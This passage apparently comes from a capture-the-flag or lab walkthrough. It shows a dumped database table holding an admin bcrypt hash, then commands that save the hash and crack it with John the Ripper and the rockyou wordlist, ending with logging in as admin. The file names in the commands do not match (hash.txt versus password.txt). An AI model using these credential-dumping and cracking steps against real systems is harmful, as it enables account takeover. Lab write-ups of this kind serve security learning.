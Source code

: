 ```sql
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+----------+--------------------------------------------------------------+
```

## Crack Hash

```bash
echo "$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2" > hash.txt
```

![Image](/assets/img/post/usage/Untitled10.png)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt password.txt
```

![Image](/assets/img/post/usage/Untitled11.png)

We go use the password for login as admin
